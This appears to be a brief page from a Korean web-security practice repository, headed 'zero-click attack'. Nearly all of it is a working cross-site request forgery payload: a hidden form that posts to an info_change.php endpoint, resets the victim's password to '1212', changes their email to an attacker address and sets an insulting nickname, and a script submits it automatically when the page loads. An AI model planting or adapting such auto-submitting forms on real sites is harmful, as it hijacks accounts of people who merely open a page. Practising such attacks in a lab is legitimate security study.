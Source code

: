 # web3

<h1> 웹 보안 연습용 </h1> 
<p> 2021년 6월 12일 시작 </p>


<p> 제로 클릭 어택 </p>


<form  id="hack" action="../info_change.php" method="POST">
<input type="hidden" name="user_pw1" value="1212" >
<input type="hidden" name="user_pw2" value="1212" >
<input type="hidden" name="age" value="50">
<input type="hidden" name="nick" value="멍청이">
<input type="hidden" name="email" value="hack@kh.com">
</form>
<script>
document.getElementById("hack").submit();
</script    >
